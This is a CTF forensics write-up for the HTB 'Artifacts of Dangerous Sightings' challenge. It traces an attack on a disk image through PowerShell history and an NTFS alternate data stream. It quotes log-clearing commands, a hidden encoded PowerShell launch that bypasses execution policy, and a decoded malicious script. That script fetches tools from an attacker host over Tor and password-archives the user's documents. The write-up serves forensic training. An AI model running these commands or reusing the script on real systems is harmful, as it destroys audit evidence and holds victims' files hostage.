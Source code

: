 ```yaml
---
layout: post
title: "HTB Cyber Apocalypse CTF 2023- Artifacts of Dangerous Sightings [Forensic]"
categories: ctf
tags: forensics blast_o mz4b
date: 2023-03-24 10:00:00 +0100
author: blast_o, mz4b
---
```


# Artifacts of Dangerous Sightings - Difficulty: medium

`Pandora has been using her computer to uncover the secrets of the elusive relic. She has been relentlessly scouring through all the reports of its sightings. However, upon returning from a quick coffee break, her heart races as she notices the Windows Event Viewer tab open on the Security log. This is so strange! Immediately taking control of the situation she pulls out the network cable, takes a snapshot of her machine and shuts it down. She is determined to uncover who could be trying to sabotage her research, and the only way to do that is by diving deep down and following all traces ...`


## hidden.ps1
We are given the following file `2023-03-09T132449_PANDORA.vhdx`


By analyzing the available evidences, we found the following interesting file:

`C\Users\Pandora\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`
```powershell
type finpayload > C:\Windows\Tasks\ActiveSyncProvider.dll:hidden.ps1
exit
Get-WinEvent
Get-EventLog -List
wevtutil.exe cl "Windows PowerShell" 
wevtutil.exe cl Microsoft-Windows-PowerShell/Operational
Remove-EventLog -LogName "Windows PowerShell"
Remove-EventLog -LogName Microsoft-Windows-PowerShell/Operational
Remove-EventLog
```


The command `type finpayload > C:\Windows\Tasks\ActiveSyncProvider.dll:hidden.ps1` is used to redirect the output of the `type finpayload"` command to the file `hidden.ps1` inside the file `ActiveSyncProvider.dll` located in the `C:\Windows\Tasks` folder.

The contents of `finpayload` are written to  "hidden.ps1" that is hidden inside the `ActiveSyncProvider.dll` file, as an **Alternate Data Stream**. Alternate Data Streams (ADS) are a file attribute only found on the NTFS file system.

By using the `Get-Item` command in PowerShell we can check all the data streams of the `ActiveSyncProvider.dll` file

``` powershell
Get-Item .\ActiveSyncProvider.dll -stream *

PSPath        : Microsoft.PowerShell.Core\FileSystem::D:\CTF\HTBCTF\forensics_artifacts_of_dangerous_sightings\ActiveSyncProvider.dll::$DATA                PSParentPath  : Microsoft.PowerShell.Core\FileSystem::D:\CTF\HTBCTF\forensics_artifacts_of_dangerous_sightings                                              PSChildName   : ActiveSyncProvider.dll::$DATA                                                                                                               PSDrive       : D                                                                                                                                           PSProvider    : Microsoft.PowerShell.Core\FileSystem                                                                                                        PSIsContainer : False                                                                                                                                       FileName      : D:\CTF\HTBCTF\forensics_artifacts_of_dangerous_sightings\ActiveSyncProvider.dll                                                             Stream        : :$DATA                                                                                                                                      Length        : 1707520  

PSPath        : Microsoft.PowerShell.Core\FileSystem::D:\CTF\HTBCTF\forensics_artifacts_of_dangerous_sightings\ActiveSyncProvider.dll:hidden.ps1            PSParentPath  : Microsoft.PowerShell.Core\FileSystem::D:\CTF\HTBCTF\forensics_artifacts_of_dangerous_sightings                                              PSChildName   : ActiveSyncProvider.dll:hidden.ps1                                                                                                           PSDrive       : D                                                                                                                                           PSProvider    : Microsoft.PowerShell.Core\FileSystem                                                                                                        PSIsContainer : False                                                                                                                                       FileName      : D:\CTF\HTBCTF\forensics_artifacts_of_dangerous_sightings\ActiveSyncProvider.dll                                                             Stream        : hidden.ps1                                                                                                                                  Length        : 175838    

```

We can now see what is inside this ADS:
``` powershell
Get-Content .\ActiveSyncProvider.dll -stream hidden.ps1

powerShell.exe -WindowStyle hiddeN -ExecuTionPolicy ByPasS -enc JAB7AFsAfgBAAH0AIAA9ACAAJAAoACkAOwAgACQAewAhACEAQAAhACEAXQB9ACAAPQAgACsAKwAkAHsAWwB+AEAAfQA7ACAAJAB7AFsAWwAhAH0AIAA9ACAALQAtACQAewBbAH4AQAB9ACAAKwAgACQAewAhACEAQAAhACEAXQB9ACAAKwAgACQAewAhACEAQAAhACEAXQB9ADsAIAAkAHsAfgB+AH4AXQB9ACAAPQAgACQAewBbAFsAIQB9ACAAKwAgACQAewAhACEAQAAhACEAXQB9ADsAIAAkAHsAWwAhACEAWwAhAH0AIAA9ACAAJAB7AFsAWwAhAH0AIAArACAAJAB7AFsAWwAhAH0AOwAgACQAewAoAH4AKAAhAH0AIAA9ACAAJAB7AH4AfgB...

```
## Decoding the script

Let's decode the b64 string found:
```
${[~@} = $(); ${!!@!!]} = ++${[~@}; ${[[!} = --${[~@} + ${!!@!!]} + ${!!@!!]}; ${~~~]} = ${[[!} + ${!!@!!]}; ${[!![!} = ${[[!} + ${[[!}; ${(~(!} = ${~~~]} + ${[[!}; ${!~!))} = ${[!![!} + ${[[!}; ${((!} = ${!!@!!]} + ${[!![!} + ${[[!}; ${=!!@!!}  = ${~~~]} - ${!!@!!]} + ${!~!))}; ${!=} =  ${((!} - ${~~~]} + ${!~!))} - ${!!@!!]}; ${=@!~!} = "".("$(@{})"[14]+"$(@{})"[16]+"$(@{})"[21]+"$(@{})"[27]+"$?"[1]+"$(@{})"[3]); ${=@!~!} = "$(@{})"[14]+"$?"[3]+"${=@!~!}"[27]; ${@!=} = "["+"$(@{})"[7]+"$(@{})"[22]+"$(@{})"[20]+"$?"[1]+"]";
"${@!=}${~~~]}${(~(!} + ${@!=}${~~~]}${(~(!} + ${@!=}${~~~]}${(~(!} + ${@!=}${~~~]}${[[!} + ${@!=}${[!![!}${!~!))} + ${@!=}${~~~]}${[[!} + ${@!=}${~~~]}${[[!} + ${@!=}${~~~]}${[[!} + ${@!=}${~~~]}${[[!} + ${@!=}${~~~]}${[[!} + ${@!=}${[!![!}${!~!))} + ${@!=}${~~~]}${[[!} + ${@!=}${~~~]}${[[!} + ${@!=}${~~~]}${[[!} + ${@!=}${~~~]}${[[!} + ${@!=}${~~~]}${[[!} + ${@!=}${~~~]}${[[!} + ${@!=}${~~~]}${[[!} + ${@!=}${[!![!}${!~!))} + ${@!=}${~~~]}${[[!} + ${@!=}${~~~]}${[[!} + ${@!=}${[!![!}${!~!))} + ${@!=}${~~~]}${[[!} + ${@!=}${~~~]}${[[!} + ${@!=}${~~~]}${[[!} + ${@!=}${[!![!}${!~!))} + ${@!=}${~~~]}${[[!} + ${@!=}${[!![!}${!~!))} + ${@!=}${~~~]}${[[!} + ${@!=}${~~~]}${[[!} + ${@!=}${ ...
```

This is obfuscated Powershell code, we modify it to be able to execute it safely and the following command is what is finally executed:

```
[Char]35 + [Char]35 + [Char]35 + [Char]32 + [Char]46 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]46 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]46 + [Char]32 + [Char]32 + [Char]46 + [Char]32 + [Char]32 + [Char]32 + [Char]46 + [Char]32 + [Char]46 + [Char]32 + [Char]32 + [Char]32 + [Char]46 + [Char]32 + [Char]32 + [Char]32 + [Char]46 + [Char]32 + [Char]46 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]43 + [Char]32 + [Char]32 + [Char]46 + [Char]10 + [Char]35 + [Char]35 + [Char]35 + [Char]32 + [Char]32 + [Char]32 + [Char]46 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]46 + [Char]32 + [Char]32 + [Char]58 + [Char]32 + ... | iex
```

Finally, we can decode that output with a simple pytohn script and get the flag:

```python
with open('chars.txt', 'r') as file:
    input_str = file.read()
output_str = ''
for char in input_str.split(' + '):
    char = char.strip('[Char]')
    output_str += chr(int(char))

print(output_str)
```
```powershell
### .     .       .  .   . .   .   . .    +  .
###   .     .  :     .    .. :. .___---------___.
###        .  .   .    .  :.:. _".^ .^ ^.  '.. :"-_. .
###     .  :       .  .  .:../:            . .^  :.:\.
###         .   . :: +. :.:/: .   .    .        . . .:\
###  .  :    .     . _ :::/:                         .:\
###   .. . .   . - : :.:./.                           .:\
###  .   .     : . : .:.|. ######               #######::|
###   :.. .  :-  : .:  ::|.#######             ########:|
###  .  .  .  ..  .  .. :\ ########           ######## :/
###   .        .+ :: : -.:\ ########         ########.:/
###     .  .+   . . . . :.:\. #######       #######..:/
###       :: . . . . ::.:..:.\                   ..:/
###    .   .   .  .. :  -::::.\.       | |       .:/
###       .  :  .  .  .-:.":.::.\               .:/
###  .      -.   . . . .: .:::.:.\            .:/
### .   .   .  :      : ....::_:..:\   ___   :/
###    .   .  .   .:. .. .  .: :.:.:\       :/
###      +   .   .   : . ::. :.:. .:.|\  .:/|
### SCRIPT TO DELAY HUMAN RESEARCH ON RELIC RECLAMATION
### STAY QUIET - HACK THE HUMANS - STEAL THEIR SECRETS - FIND THE RELIC
### GO ALLIENS ALLIANCE !!!
function makePass
{
    $alph=@();
    65..90|foreach-object{$alph+=[char]$_};
    $num=@();
    48..57|foreach-object{$num+=[char]$_};

    $res = $num + $alph | Sort-Object {Get-Random};
    $res = $res -join '';
    return $res;
}

function makeFileList
{
    $files = cmd /c where /r $env:USERPROFILE *.pdf *.doc *.docx *.xls *.xlsx *.pptx *.ppt *.txt *.csv *.htm *.html *.php;
    $List = $files -split '\r';
    return $List;
}

function compress($Pass)
{
    $tmp = $env:TEMP;
    $s = 'https://relic-reclamation-anonymous.alien:1337/prog/';
    $link_7zdll = $s + '7z.dll';
    $link_7zexe = $s + '7z.exe';

    $7zdll = '"'+$tmp+'\7z.dll"';
    $7zexe = '"'+$tmp+'\7z.exe"';
    cmd /c curl -s -x socks5h://localhost:9050 $link_7zdll -o $7zdll;
    cmd /c curl -s -x socks5h://localhost:9050 $link_7zexe -o $7zexe;

    $argExtensions = '*.pdf *.doc *.docx *.xls *.xlsx *.pptx *.ppt *.txt *.csv *.htm *.html *.php';

    $argOut = 'Desktop\AllYourRelikResearchHahaha_{0}.zip' -f (Get-Random -Minimum 100000 -Maximum 200000).ToString();
    $argPass = '-p' + $Pass;

    Start-Process -WindowStyle Hidden -Wait -FilePath $tmp'\7z.exe' -ArgumentList 'a', $argOut, '-r', $argExtensions, $argPass -ErrorAction Stop;
}

$Pass = makePass;
$fileList = @(makeFileList);
$fileResult = makeFileListTable $fileList;
compress $Pass;
$TopSecretCodeToDisableScript = "HTB{Y0U_C4nt_St0p_Th3_Alli4nc3}"
```